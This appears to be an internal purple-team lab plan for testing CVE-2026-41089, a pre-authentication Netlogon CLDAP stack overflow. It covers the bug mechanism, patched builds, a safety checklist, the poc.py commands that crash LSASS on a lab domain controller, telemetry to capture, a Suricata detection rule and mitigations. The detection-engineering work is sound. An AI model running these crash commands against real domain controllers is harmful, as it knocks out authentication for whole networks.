**CVE:** CVE-2026-41089 (CVSS 9.8 CRITICAL, CWE-121 Stack-based Buffer Overflow, published 2026-05-12 by Microsoft)
**Tool:** `poc.py` (Python 3.8+, no third-party deps, 299 lines)
**MITRE:** T1210 (Exploitation of Remote Services) + T1190 (Exploit Public-Facing Application)

**Vulnerability mechanism:**
- `NlGetLocalPingResponse` allocates a 528-byte stack buffer (`Src[528]`)
- Hands it to `BuildSamLogonResponse` → calls `NetpLogonPutUnicodeString` to write Unicode strings
- **Root cause:** `NetpLogonPutUnicodeString` receives max length in **bytes** but treats it as **WCHAR count** → strings occupy 2x expected space
- "User" field in CLDAP filter (130 wchars = 260 bytes on wire) + other strings overflow the buffer
- LSASS crashes → DC reboots in ~60 seconds

**Affected systems (CADRE DCs presumed vulnerable):**
| Server | Fixed In |
|--------|----------|
| 2012 / 2012 R2 | ESU-only patches |
| 2016 | 10.0.14393.9140 |
| 2019 | 10.0.17763.8755 |
| 2022 | 10.0.20348.5074 |
| 2022 23H2 | 10.0.25398.2330 |
| **2025** | **10.0.26100.32772** |

**Attack vector:** UDP 389 (CLDAP), pre-authentication, **zero credentials required**, single crafted UDP packet.

**Pre-test checklist (CRITICAL — don't crash a production DC):**
- [ ] Snapshot dc01, dc02, dc03 before testing (VMware `vmrun.exe snapshot`)
- [ ] Verify DC patch level on each: `Get-ItemProperty -Path 'HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion' -Name CurrentBuild, UBR` (Server 2025 fixed: 10.0.26100.32772)
- [ ] Test target = **dc02 FIRST** (child domain DC, less critical than dc01)
- [ ] UDP/389 reachable from Kali to target DC (`nmap -sU -p 389 192.168.77.11`)
- [ ] Notify team DC will be down ~60 seconds during test
- [ ] Prepare for `Reset-ComputerMachinePassword` cleanup if needed

**Test plan:**
```bash
# On Kali
cd docs/internal/references/sources/cve-2026-41089

# Phase 1: connectivity check (short username, no overflow)
python3 poc.py 192.168.77.11 child.cadre.local
# Expected: DC responded. Target is alive.

# Phase 2: overflow attempt (130-char username by default)
python3 poc.py 192.168.77.11 child.cadre.local -l 130
# Expected: No response. LSASS may have crashed.

# Phase 3: liveness check (auto after 3s delay)
# If DC is dead: "DC is not responding. LSASS likely crashed. Expect reboot in ~60s."
```

**Expected behavior:**
- **If vulnerable (build < 10.0.26100.32772):** DC's LSASS crashes → no UDP/389 response → DC reboots in ~60s
- **If patched (build >= 10.0.26100.32772):** DC stays alive → no crash → "Try a larger payload: -l 180"

**Telemetry to capture during attack:**
- **Network:** Zeek `udp.log` (CLDAP traffic on port 389) + `udp` notice for oversized search filter
- **Network:** Suricata (new rule candidate for CLDAP overflow pattern — oversized User attribute)
- **Host:** WinSec 1000 (Application Error — `netlogon.dll` crash) on target DC
- **Host:** WinSec 5805 (The LSASS process was terminated)
- **Host:** Sysmon EID 1 (process creation on DC after reboot — may show exploit-related processes if any persist)
- **Host:** Enable Netlogon debug logging pre-test: `nltest /dbflag:0x2080ffff`

**Detection rules to build (post-test):**
- **Suricata new rule (proposed SID:1000100):** Alert on CLDAP search requests where `User` filter attribute > 20-30 characters
  ```
  alert udp any any -> any 389 (msg:"CADRE CVE-2026-41089 Netlogon CLDAP overflow attempt - oversized User attribute"; \
    content:"|A3 04|User"; pcre:"/User\x04[\x81\x82\x83]?[\x50-\xFF]/"; \
    sid:1000100; rev:1;)
  ```
- **Zeek new script `cadre-cldap.zeek`:** Watch for CLDAP search requests with oversized `User` attribute
- **Elastic KQL (WinSec 1000 with netlogon.dll):** `event.code:1000 AND winlog.event_data.SourceName:netlogon`
- **Suricata SID for UDP/389 flood:** Optional — multi-packet detection of CLDAP scanning

**Post-test:**
- Promote CAMPAIGNS-METADATA.md Mechanics section from STUB to TESTED with actual telemetry
- Update CAMPAIGNS.md WT status from 🆕 to ✅ (if worked) or ❌ Patched (if build >= 32772)
- Document outcome in `docs/internal/plan01-telemetry-catalog/phase1-source-matrix/tracker.md` (post-campaign)
- Add to `plan1.7` defense deepening as detection engineering deliverable
- Cross-reference: Item #65 Zerologon Alternative (superseded), Item #76 Onelogon (also exploits Netlogon but different vuln class)

**Mitigation (if vulnerable — for production hardening reference):**
- Install May 2026 Microsoft security update (build 10.0.26100.32772)
- Restrict UDP 389 inbound to trusted management subnets (firewall rule)
- 0patch ships micropatches for legacy Server versions (single instruction fix: `mov edx, 0x40` to halve max username length)

**Why standalone (not main campaign):**
- Unauthenticated DC compromise would short-circuit the entire credential chain (Phases 1-3 become unnecessary)
- CADRE's main campaign demonstrates misconfiguration-based attacks, not CVE exploits
- But valuable as a standalone exercise: tests detection of Netlogon exploitation, shows what happens when a critical CVE hits

**Cross-references:**
- Campaign_suggestions.md #33 (full entry with PoC details, detection rules, mitigation)
- Campaign_suggestions.md #76 Onelogon Zero-Channel (different Netlogon vuln class — also bypasses post-Zerologon hardening)
- Item #65 Zerologon Alternative — superseded by CVE-2026-41089 + Onelogon


